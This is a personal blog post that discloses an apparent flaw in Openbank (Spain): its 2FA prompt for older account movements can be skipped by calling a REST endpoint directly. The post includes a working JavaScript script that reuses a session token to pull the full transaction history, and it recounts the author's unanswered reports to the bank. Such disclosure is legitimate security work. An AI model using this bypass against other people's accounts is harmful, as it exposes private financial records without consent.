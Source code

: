 
<Head>
    <title>Openbank's useless 2FA for checking the full movements history</title>
</Head>

# Openbank's useless 2FA for checking the full movements history

> December 27 2024
<br/>
Hey, this is a brief analysis I have done over [Openbank (Spain)](https://www.openbank.es/).

\
**Openbank** has a 2FA system for certain actions in their app and webapp, this includes checking the full history of movements, even if you are already logged in.
\
Here is the [route](https://clientes.openbank.es/myprofile/accounts/0000000/movements) of the webapp where you can see movements of an account. Replace the zeros with an account id in case you want to try it.
\
By default it only displays movements up to around 3 months ago, if you want to see older movements you need to click on the **See More movements** button, which prompts the following popup (translated from Spanish):
<br/>
<div class="flex justify-center items-center">
    <img src="/openbank_2fa_popup.png" alt="Openbank useless 2fa" align="middle" />
</div>
\
The issue is that this popup is basically **useless** because there is an endpoint from their REST API that we can use to literally query all the transactions from the day the account was created.
\
I made the following script in JavaScript that uses the mentioned endpoint.
\
You can get your `<CONTRACT_ID>` by digging a bit in the app or webapp, and you can get the `<AUTH_TOKEN>` by inspecting some of the requests sent by the webapp.
<br/>

```ts
async function get() {
    let data = []
    const categories = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14];

    const contracts = ["<CONTRACT_ID>"] // You can put multiple contracts if you want
    const authToken = `<AUTH_TOKEN>`;
    await Promise.all(categories.map(async (code) => {
        const res = await fetch("https://api.openbank.es/categorized-transactions/listbycategorycontracts ", {
            "credentials": "omit",
            "headers": {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0",
                "Accept": "application/json",
                "Accept-Language": "en-US,en;q=0.5",
                "Content-Type": "application/json",
                "version": "2",
                "openBankAuthToken": authToken,
                "Sec-GPC": "1",
                "Sec-Fetch-Dest": "empty",
                "Sec-Fetch-Mode": "cors",
                "Sec-Fetch-Site": "same-site",
                "Pragma": "no-cache",
                "Cache-Control": "no-cache"
            },
            "referrer": "https:clientes.openbank.es/",
            "body": JSON.stringify({
                temporalGrouping: "Y",
                contracts,
                from: "1234-01-23", // LOL
                to: "2222-11-22",   // still far away
                categoryCode: code,
                banks: null
            }),
            "method": "POST",
            "mode": "cors"
        });
        const json = await res.json(); 
        data = [
            ...data,
            ...json
        ]
    }));

    return 
        data.map(tx => ({
            date: new Date(tx.fecha),
            title: tx.concept,
            amount: tx.monto
        }))
        .sort((a, b) => a.date - b.date).reverse();
}

const formatter = new Intl.DateTimeFormat('en-US', { day: "numeric", month: "long" });

for(const tx of await get()) {
    console.log(`${formatter.format(tx.date)}      ${tx.title}     ${tx.amount}`);
}
```
\
By running this script **I am able to see what it seems to be the whole movements history from the day I created my account.**
\
Random example of a log I can see from some years ago:
<br/>
<div class="flex justify-center items-center">
    <img src="/openbank_2fa_tx_example.png" alt="Openbank useless 2fa tx example" align="middle" />
</div>
<br/>
> Note: I used Deno to run the script but you can use other runtimes or even a browser as long as you are in the openbank website.
<br/>

But here is more to this story, the endpoint used in the script is used in another [route](https://clientes.openbank.es/myprofile/global/expenses-by-category/) of the webapp.
\
This other route allows us to see the movements up to **1 year ago with no extra steps**, though it will get angry at you if you try an older date.
<br/>
<div class="flex justify-center items-center">
    <img src="/openbank_2fa_minimum_date.png" alt="Openbank useless 2fa minimum date" align="middle" />
</div>
\
But that's the UI, because in the other hand, the **REST endpoint does not care about minimum dates or extra security requirements**.
\
Something I also noticed is that some endpoints and their parameters, are written in English and others in Spanish, perhaps a lack of coordination between teams lead to this.
\
I think this issue is kinda dumb but at the same time if you think about... they think they have a security feature, but it doesn't really secure anything, does it? What if other things are also not working as expected?
\
Btw, I already tried to contact **Openbank** multiple times privately, I never really got an answer regarding the issue, but rather all I got was "Send it to this other X email" or "Thanks for contacting us, we will answer asap!".
Last message I got was an automated response on December 2nd. It seems they can't afford to have a decent technical support.
\
Idk, perhaps I am just missing something... Time will tell I guess!
\
Anyway, you can find me in [X](https://x.com/mkenzo_8), [GitHub](https://github.com/marc2332/) or [LinkedIn](https://www.linkedin.com/in/marc-esp%C3%ADn-sanz-79575a187/).
\
Imma go watch Squid Game Season 2 now, thanks for reading!